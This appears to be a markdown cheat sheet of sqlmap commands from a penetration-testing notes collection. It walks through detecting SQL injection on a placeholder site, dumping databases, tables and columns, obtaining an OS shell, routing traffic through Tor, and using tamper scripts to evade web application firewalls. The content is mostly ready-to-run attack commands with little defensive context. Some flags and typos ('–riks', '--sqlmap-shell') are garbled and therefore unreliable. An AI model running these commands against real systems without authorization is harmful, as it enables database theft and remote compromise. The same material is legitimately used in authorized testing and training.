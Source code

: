# sqlmap 

## Simple Usage

If you don’t know anything about the target site then use the normal command first, 
Observe if the SQLMap found something juicy for you

```sh
sqlmap -u “https://target_site.com/page/”
```

### Automatic GET request parameter
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```
### Specify the GET request parameters to Exploit

You can specify on which parameter you want to check or exploit the sql injection using just “-p” flag.
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```

### Use POST requests (Test All parameters)
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```

### SQLMap Request file as input

You can specify a request file containing the HTTP request, You can get it quickly from BurpSuite.

```sh
sqlmap -r request.txt
```

### Here you can specify the targeted parameter or sqlmap will recognize and will test for all the parameters found.

!! info "Specify Custom Position in HTTP request file - You can use the asterisk sign(*) to specify which parameter to attack or which place of the request to be attacked. You can specify or mark any part of the request by this method."

### Use Authenticated Session With Cookie
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"
```
### Use Authenticated Session with Auth Headers
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```
### Basic Authentication
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
### Use Previously created Session as SQLmap input (-s)

If you got SQL injection positive somewhere, then sqlmap will automatically create a session file(.sqlite) for later use. Now, If you want to try some other commands later, you can use the session file directly (It will save your time to re-try all the possible payloads and identify the vulnerability and all.)

```sh
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```
## Post Exploitation Commands

If the SQL injection vulnerability is observed positive then you can use the following commands to Exploit the SQL injection vulnerability.

### List the Databases
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbs
```
### List Tables of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables
```
### List Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns
```
### Dump Specific Data of Columns of Table TARGET_TABLE of Database TARGET_DB
```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```
### Fully Dump Table TARGET_TABLE of Database TARGET_DB

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump
```
### Dump full Database

```sh
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump
```

### Custom SQL query

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"
```
### Get OS Shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --os-shell
```
### Get SQL shell
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell
```
## SQLMap Proxy

## Proxy through Burpsuite
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --proxy="http://127.0.0.1:8080/"
```
## Use Tor Socks5 proxy
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tor --tor-type=SOCKS5 --check
```
## Extra

### Specify The Database Type
```sh
sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
```

You can use other DBMS types like MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, Percona, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, etc.

## Attack Techniques

`–technique` Specify a letter or letters of BEUSTQ to control the exploit attempts:

```
B: `Boolean-based blind`

E: `Error-based`

U: `Union query-based`

S: `Stacked queries`

T: `Time-based blind`

Q: `Inline queries`
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ
```

### Specify the Injection Techniques

```
You can specify the difficulty levels using two flags,

Option: --risk

–level = LEVEL     Level of tests to perform (1-5, default 1)
–risk=RISK         Risk of tests to perform (0-3, default 1)```sh
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --risk=3 --level=5
```
### This option requires an argument that specifies the risk of tests to perform. There are three risk values.

```
–riks=1: 1 is the default value which is for the majority of SQL injection points.
–riks=2: Adds to the default level the tests for heavy query time-based SQL injections
–riks=3: Value 3 adds also OR-based SQL injection tests.
```

When the value of --level is >= 2 it tests also HTTP Cookie header values. When this value is >= 3 it tests also HTTP User-Agent and HTTP Referer header value for SQL injections.

Use Default Options for the process
Use –batch flag to use all the default options or used for non-interactive sessions. (By specifying –batch flag, sqlmap will not ask you for the (Y/N) choice rather then it will smartly choose according to the needs.)
```

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --batch
```

### Force SQLmap to use SSL or TLS for its requests.

`–force-ssl flag` - Error: Can’t establish SSL connection

If you getting the following error during testing then you can use the flag `–force-ssl` to force SQLMap to use SSL or TLS.

## Tamper Scripts

You can use the tamper scripts to bypass WAF or to modify the payload. You can use multiple tampering scripts at once using `–tamper` flag.

```sh
sqlmap -u “https://target_site.com/page?p1=value1” --tamper=charencode
```

### For General Perpose Usecase:
```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MSSQL:
```
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dsash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### MySQL:

```
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
OR You can create your own Custom Tamper script to overcome the issue of some type of Encrypted payloads like AES, DES, Hashing, etc.
```
